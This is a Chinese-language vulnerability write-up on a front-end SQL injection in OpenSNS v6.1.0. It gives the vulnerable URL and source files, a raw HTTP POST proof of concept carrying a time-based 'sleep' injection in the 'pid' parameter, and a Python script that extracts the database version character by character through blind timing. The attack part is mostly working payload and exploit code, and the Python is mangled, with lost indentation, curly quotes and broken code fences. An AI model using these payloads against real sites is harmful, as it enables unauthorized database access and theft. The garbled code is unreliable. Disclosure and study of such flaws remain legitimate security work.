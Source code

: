 ```yaml
---
title: OpenSNS v6.1.0 前台sql注入
id: zhfly3060
---
```


# OpenSNS v6.1.0 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

OpenSNS v6.1.0

## 三、复现过程

#### vul url

> [http://0-sec.org/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](https://www.t00ls.net/)

![image](../img/f6bf18ec9f01f5ff92eddcb59607417c.png)

#### poc

```
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip `cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3` 
```

![image](../img/cc14f7e9c7e5ac958e39605b60b8de1e.png)

![image](../img/eac1c8aad7325e3f412c8a75615ddebd.png)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![image](../img/a8ceeefabcb5159e1bee2da3da3c9fd8.png)

ThinkPHP/Library/Think/Db.class.php:772

![image](../img/9b6762ec6bafd4373786f3dbe886e953.png)

![image](../img/83ebac464da6dd7ba1f7c079eaa69c1c.png)

#### exp

```
import requests
from requests import exceptions

url=“[http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html)”

header={‘X-Requested-With’:‘XMLHttpRequest’}

# proxies={‘http’:‘127.0.0.1:8080’}

flag=’’

for i in range(1,50):

for j in range(32,128):

try:

data={

‘cid’:0,

‘pid[0]’:"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),

‘pid[1]’:3

}

# print data[‘pid[0]’]

r=requests.post(url,data=data,headers=header,timeout=5)

```
 except exceptions.Timeout :
        flag+=chr(j)
        print flag 
``` 
```

![image](../img/81435cf8c246b2c712644c54b0646450.png)